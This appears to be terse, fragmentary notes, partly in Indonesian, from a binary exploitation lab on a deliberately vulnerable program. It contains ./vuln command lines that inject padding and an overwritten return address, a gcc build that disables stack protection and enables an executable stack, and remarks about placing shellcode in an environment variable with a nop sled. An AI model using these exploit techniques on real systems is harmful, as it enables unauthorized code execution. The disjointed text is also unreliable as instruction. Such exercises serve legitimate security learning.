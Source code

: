 

0xffffce73


./vuln $(python3 -c 'print("A"*20 + "\x73\xce\xff\xff")')



caranya, kita buat shellcode -> diexport sebagai env, nah nanti programnya manggil env tersebut


./vuln $(python3 -c 'print("\x73\xce\xff\xff")')



	gcc -m32 -g -o format_string -z execstack -fno-stack-protector format_string.c


19x4 nop sled

